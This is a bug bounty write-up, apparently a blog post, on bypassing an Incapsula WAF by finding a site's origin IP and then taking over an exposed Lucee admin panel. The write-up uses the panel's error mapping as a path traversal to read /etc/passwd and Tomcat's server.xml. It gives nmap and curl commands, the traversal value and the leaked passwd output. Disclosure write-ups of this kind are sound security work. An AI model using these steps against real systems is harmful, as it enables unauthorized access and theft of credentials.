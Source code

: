 ```yaml
---
layout: post
title: "Bug Bounty - Information Disclosure through error message + WAF Bypass led to Local File Inclusion"
categories: BugBounty
---
```

## Bug Bounty - Information Disclosure through error message + WAF Bypass led to Local File Inclusion

# Summary:
This is a writeup about a critical bug that me and [0xcela](https://hackerone.com/cela) found while poking around. This bug is undisclosed due to private program so I'm going to refer the company as **redacted.com**
&nbsp;

A vulnerable directory was found which led to an information disclosure through error message. After trying different types of attacks we were blocked by Incapsula WAF, so we managed to find the origin ip to further continue our research where we found different endpoints which led to the same information disclosure through error message.


# Exploitation:
While bruteforcing hidden directories and looking through waybackurls, we found a path **/cfapps/** which output the error as shown in the picture below.
&nbsp;
![full path disclosure]({{ site.baseurl }}/assets/images/image2.png){:.images}

&nbsp;

We also found some endpoints that accepted parameters but soon as we tried something suspicious we were blocked and we couldn't access that site anymore. So we decided to look through censys.io search engine without any specific filter only "redacted.com" and we found the origin ip.

To prove that we found the origin ip, we could compare the body and site headers.
&nbsp;
{% highlight bash %}
> $ nmap -p80,443 redacted.com
80/tcp open http Incapsula CDN httpd
443/tcp open ssl/http Incapsula CDN http

> $ nmap -p80,443 -sV IP
PORT STATE SERVICE VERSION
80/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
443/tcp open ssl/http Apache Tomcat/Coyote JSP engine 1.1

> $ curl https://IP/cfapps/ -k -v
<!doctype html>
<title>External Apps</title>
..[SNIP]..
<div class="center padding">
{ts '2019-05-28 13:06:26'}
</div>
..[SNIP]..
</html>

> $ curl https://redacted.com/cfapps/ -v
<!doctype html>
<title>External Apps</title>
..[SNIP]..
<div class="center padding">
{ts '2019-05-28 13:07:53'}
</div>
..[SNIP]..
</html>
{% endhighlight %}
&nbsp;

We decided to report this because we thought that it would count as valid bug as it was exposing full paths but..
&nbsp;
![h1 reply]({{ site.baseurl }}/assets/images/image3.png){:.images}
&nbsp;
We continued our research to come up with an attack vector. We managed to log in into Lucee framework then abused Error Mapping function. What this function does is that when an error occurs, it redirects to a default error which is stored in a local file, in our case we could change it to read sensitive files.
&nbsp;
After knowing that it uses Lucee framework, we browsed to https://IP/lucee/
&nbsp;

Lucee has a public admin interface by default which you can find the path on view-source of /lucee/ and is located on https://IP/lucee/lucee/admin/server.cfm
&nbsp;

This prompts for a new password, which we set to admin321. We could log out and log in again on **https://IP/lucee/lucee/admin/web.cfm**. Even after we set a new password we could still change it by browsing to /server.cfm
&nbsp;
Browsing to /lucee/lucee/admin/web.cfm?action=server.error we could change the function when the application receives an 404 or 500 error, we changed the 500 error from default value (/lucee/templates/error/error.cfm) to **../../../../../../../../../../etc/passwd.**
&nbsp;
![Lucee Interface]({{ site.baseurl }}/assets/images/image4.png){:.images}
&nbsp;

**To execute the error.cfm, we made a request on a page that returned error 500**
```bash
curl -X GET \
https://IP/lucee/lucee/admin/web.cfm?action=debugging.logs&action2=detail&id=DCF806E56E1192D43C0A8B64EC573BC6
```
&nbsp;
**Response**:
HTTP/1.1 500 Internal Server Error
Content-Type: text/html;charset=UTF-8

> root:x:0:0:root:/root:/bin/bash
> bin:x:1:1:bin:/bin:/sbin/nologin
> daemon:x:2:2:daemon:/sbin:/sbin/nologin
> adm:x:3:4:adm:/var/adm:/sbin/nologin
> lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
> sync:x:5:0:sync:/sbin:/bin/sync
> shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
> halt:x:7:0:halt:/sbin:/sbin/halt
> mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
> operator:x:11:0:operator:/root:/sbin/nologin
> games:x:12:100:games:/usr/games:/sbin/nologin
> ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
> nobody:x:99:99:Nobody:/:/sbin/nologin
> systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
> dbus:x:81:81:System message bus:/:/sbin/nologin
> polkitd:x:999:997:User for polkitd:/:/sbin/nologin
> chrony:x:998:996::/var/lib/chrony:/sbin/nologin
> sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
> **raladmin:x:1000:1000::/home/raladmin:/bin/bash**
> sssd:x:997:994:User for sssd:/:/sbin/nologin
> nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
> tcpdump:x:72:72::/:/sbin/nologin
> tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
> setroubleshoot:x:996:992::/var/lib/setroubleshoot:/sbin/nologin
> **webuser:x:1001:1001:webuser:/home/webuser:/bin/bash**
> postfix:x:89:89::/var/spool/postfix:/sbin/nologin
>{: style="color: red"}

&nbsp;
![passwd]({{ site.baseurl }}/assets/images/image5.png){:.images}
&nbsp;
We also managed to read ../../../../../../../../../../../../usr/share/tomcat/conf/server.xml
&nbsp;
There was some sensitive info located in this file, including web-ldap and azure cloud postgresql passwords

# Note:
- Security Team decided to rate this bug as critical
- Bounty awarded
- Vulnerability fixed